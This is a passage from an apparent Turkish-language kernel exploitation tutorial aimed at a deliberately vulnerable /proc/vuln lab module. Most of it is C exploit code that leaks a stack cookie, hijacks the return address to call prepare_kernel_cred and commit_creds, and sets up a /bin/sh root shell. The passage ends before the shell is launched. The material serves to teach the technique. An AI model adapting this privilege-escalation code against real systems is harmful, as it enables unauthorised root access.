 ```
```
Bu yeni kullanıcı olarak ev dizinimizde exploiti çalıştırırsak... hiçbirşey olmayacak. Exploit 
sorunsuzca çalışacak, dmesg çıktısında herhangi bir kernel hatası ile karşılaşmıyacağız ama 
root da olamayacağız. Bunun sebebi `commit_creds`in root cred'lerini sadece anlık işleme uygulaması,
bu işlem de bizim exploitimiz. Exploitimiz çalıştıktan sonra sorunsuzca root alıyor ancak bunu 
herhangi bir şekilde kullanmadan exploitimiz sonlanıyor. Exploitimizi gerçekten de kullanılabilir 
yapmak adına en son bir shell çalıştırabiliriz:
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>
#include <fcntl.h>

// en son çalıştıracağımız komut
// sh shellini çalıştırıyor olacağız
#define CMD    "/bin/sh"

#define DEVICE "/proc/vuln"

void root(void)
{

    __asm__(
    ".intel_syntax noprefix;"
    "movabs rax, 0xffffffff81094a50;" //prepare_kernel_cred
    "xor rdi, rdi;"
    "call rax; mov rdi, rax;"
    "movabs rax, 0xffffffff810947b0;" //commit_creds
    "call rax;"
    ".att_syntax;"
    );

}

int main()
{

    int fd = open(DEVICE, O_RDWR);

    unsigned long w[3];
    unsigned long r[5];

    bzero(w, sizeof(w));
    bzero(r, sizeof(r));
    
    read(fd, r, sizeof(r));
    for(int i = 0; i < sizeof(r)/8; i++){
        printf("Reading (%d): %lx\n", i, r[i]);
    }
    printf("Cookie leaked! %lx\n", r[4]);

    w[0] = 0; // local buffer 
    w[1] = 0; // stack cookie 
    w[2] = (unsigned long)root; // return address 

    puts("Writing payload to "DEVICE);
    write(fd, w, sizeof(w));
    close(fd);

    // bu noktada payloadımızı yazıp root aldığımıza göre 
    // komutu çalıştırabiliriz
```